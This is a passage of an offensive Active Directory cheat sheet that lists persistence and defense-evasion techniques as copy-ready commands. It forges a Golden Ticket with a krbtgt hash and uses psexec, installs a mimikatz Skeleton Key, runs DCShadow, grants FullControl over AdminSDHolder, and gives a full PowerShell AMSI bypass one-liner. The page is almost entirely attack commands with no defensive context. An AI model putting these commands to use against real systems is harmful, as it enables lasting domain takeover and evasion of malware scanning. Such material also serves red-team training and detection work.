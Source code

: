 
## Persistence

### Golden Ticket

```bash
# Create Golden Ticket
python3 ticketer.py -nthash krbtgt-hash -domain-sid domain-sid -domain domain.com -extra-sid enterprise-admin-sid administrator

# Use Golden Ticket
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass domain.com/administrator@dc-hostname
```

### Skeleton Key

```bash
# Install Skeleton Key
python3 smbexec.py domain.com/username:password@dc-ip
mimikatz # privilege::debug
mimikatz # misc::skeleton
```

### DCShadow

```bash
# DCShadow Attack
python3 dcshadow.py domain.com/username:password@dc-ip -object-dn "CN=target,CN=Users,DC=domain,DC=com"
```

### AdminSDHolder

```bash
# Modify AdminSDHolder
python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'attacker' -target 'CN=AdminSDHolder,CN=System,DC=domain,DC=com' domain.com/username:password
```

---

## Defense Evasion

### AMSI Bypass

```powershell
# AMSI Bypass
$a = [Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f = $e}};$g = $f.GetValue($null);[IntPtr]$ptr = $g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
